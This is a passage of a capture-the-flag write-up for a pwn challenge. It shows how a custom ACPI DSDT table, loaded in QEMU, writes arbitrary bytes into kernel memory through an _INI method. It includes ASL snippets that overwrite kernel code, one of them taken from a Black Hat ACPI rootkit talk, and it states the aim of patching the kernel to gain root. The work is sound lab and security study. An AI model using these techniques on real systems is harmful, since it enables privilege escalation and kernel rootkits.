 *356 Pts, 8 solved, pwn*

An hour or so later the fixed version was up and running, so it was time to try solve the challenge the intended way. I followed the archlinux wiki to dump the existing table, increaded the OEM version, recompiled it, and sent it to the run script. The console logs contained `ACPI: Table Upgrade: override [DSDT-BOCHS -BXPCDSDT]` indicating that it had worked!

I spent a bit of time reading up on the ASL language and ACPI, and found a blackhat presentation called [Implementing and Detecting an ACPI BIOS Rootkit](https://www.blackhat.com/presentations/bh-europe-06/bh-eu-06-Heasman.pdf) and the [ACPI spec](http://www.acpi.info/DOWNLOADS/ACPI_5_Errata%20A.pdf) very helpful.

The blackhat slides had a great example of how you could overwrite part of the kernel:

```haskell
// OperationRegion to overwrite sys_ni_syscall()
OperationRegion(NISC, SystemMemory, 0x12BAE0, 0x40)
Field(NISC, AnyAcc, NoLock, Preserve)
{
  NICD, 0x40
}
Store(Buffer () {0xFF, 0xD3, 0xC3, 0x90, 0x90, 0x90, 0x90,0x90}, NICD)
```

This looked promising, and as kaslr was disabled, we should be able to patch the kernel to make us root. It took a while to work out how to get the code to actually run, but after looking through the spec I came across `_INI` which sounded promising:


> 6.5.1 _INI (Init)
> _INI is a device initialization object that performs device specific initialization.
> 

To test this we need to find the hardware address of the kernel. We know that it will be at the virtual address `0xffffffff81000000` without kaslr, we can use the qemu monitor to find the hardware mapping:

```bash
(qemu) info tlb
...
ffffffff81000000: 0000000001000000 -GPDA----
```

So the kernel is at `0x1000000`, lets try writing something using the following DSDT:

```haskell
DefinitionBlock ("", "DSDT", 1, "BOCHS ", "BXPCDSDT", 0x00000002)
{
  Method (_INI, 0, NotSerialized) {
    OperationRegion (PWDN, SystemMemory, 0x000000001000000, 4)
    Field (PWDN, AnyAcc, NoLock, Preserve)
    {
      ADDR, 32
    }
    ADDR = Buffer () { 0x12, 0x34, 0x56, 0x78 }
  }
}
```
```bash
(qemu) x/4wx 0xffffffff81000000
ffffffff81000000: 0x78563412 0xe800803f 0x000000d4 0xed3d8d48
```
